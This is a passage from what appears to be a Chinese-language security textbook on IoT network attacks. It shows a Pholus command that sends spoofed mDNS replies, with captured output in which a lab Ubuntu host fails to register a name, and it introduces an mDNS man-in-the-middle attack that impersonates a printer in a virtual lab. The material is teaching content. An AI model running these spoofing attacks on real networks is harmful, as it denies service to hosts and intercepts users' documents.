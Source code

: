 ```
# **python pholus.py eth0 -afre -stimeout 1000**
```

将 `eth0` 参数替换为你首选的网络接口。`-afre` 参数使 Pholus 在 `-stimeout` 秒内发送伪造的 mDNS 回复。

该输出显示 Pholus 在网络上阻止了一个新的 Ubuntu 主机：

```
00:0c:29:f4:74:2a 192.168.10.219 QUERY Question: **ubuntu-133.local.** * (ANY) QM Class:IN
00:0c:29:f4:74:2a 192.168.10.219 QUERY Auth_NS: ubuntu-133.local. AAAA Class:IN "fdd6:f51d:5ca8:0:c81e:79a4:8584:8a56"
00:0c:29:f4:74:2a 192.168.10.219 QUERY Auth_NS: 6.5.a.8.4.8.5.8.4.a.9.7.e.1.8.c.0.0.0.0.8.a.c.5.d.1.5.f.6.d.d.f.ip6.arpa. PTR Class:IN "ubuntu-133.local."
Query Name =  6.5.a.8.4.8.5.8.4.a.9.7.e.1.8.c.0.0.0.0.8.a.c.5.d.1.5.f.6.d.d.f.ip6.arpa  Type= 255
00:0c:29:f4:74:2a fdd6:f51d:5ca8:0:e923:d17e:4a0f:184d QUERY Question: 6.5.a.8.4.8.5.8.4.a.9.7.e.1.8.c.0.0.0.0.8.a.c.5.d.1.5.f.6.d.d.f.ip6.arpa. * (ANY) QM Class:IN
Query Name =  ubuntu-134.local  Type= 255
00:0c:29:f4:74:2a fdd6:f51d:5ca8:0:e923:d17e:4a0f:184d QUERY Question: ubuntu-134.local. * (ANY) QM Class:IN
00:0c:29:f4:74:2a fdd6:f51d:5ca8:0:e923:d17e:4a0f:184d QUERY Auth_NS: ubuntu-134.local. AAAA Class:IN "fdd6:f51d:5ca8:0:c81e:79a4:8584:8a56"
```

当 Ubuntu 主机启动时，其 mDNS 响应程序尝试查询本地名称 `ubuntu.local`。由于 Pholus 不断发送伪造的回复，表示攻击者拥有该名称，Ubuntu 主机不断迭代新的潜在名称，如 `ubuntu-2.local`、`ubuntu-3.local` 等，最终都无法注册。注意，主机尝试到 `ubuntu-133.local` 时依然没有成功。

### mDNS 和 DNS-SD 中间人攻击

现在，让我们尝试一个更具影响力的高级攻击：mDNS 欺骗攻击者通过利用 mDNS 中缺乏身份验证的漏洞，将自己置于客户端和某个服务之间的特权中间人位置。这使他们能够捕获和修改通过网络传输的潜在敏感数据，或干脆拒绝服务。

在本节中，我们将使用 Python 构建一个 mDNS 欺骗工具，伪装成网络打印机，以捕获本应发送到真实打印机的文档。然后，我们将在虚拟环境中测试该攻击。

#### 设置受害者服务器

我们将首先设置受害者机器，使用 *ippserver* 模拟一个打印机。Ippserver 是一个简单的互联网打印协议（IPP）服务器，可以充当一个非常基本的打印服务器。我们使用了 Ubuntu 18.04.2 LTS（IP 地址：192.168.10.219）在 VMware 上，但操作系统的具体细节不重要，只要你能运行当前版本的 ippserver。

安装操作系统后，在终端中输入以下命令启动打印服务器：

```
$ **ippserver test -v**
```

该命令调用默认配置设置下的 ippserver。它应该监听 TCP 8000 端口，宣布一个名为 `test` 的服务，并启用详细输出。如果你在启动服务器时打开了 Wireshark，你应该注意到服务器通过向本地多播地址 224.0.0.251 发送 mDNS 查询来执行探测阶段，询问是否已经有人拥有名为 `test` 的打印服务（图 6-7）。

![f06007](img/f06007.png)
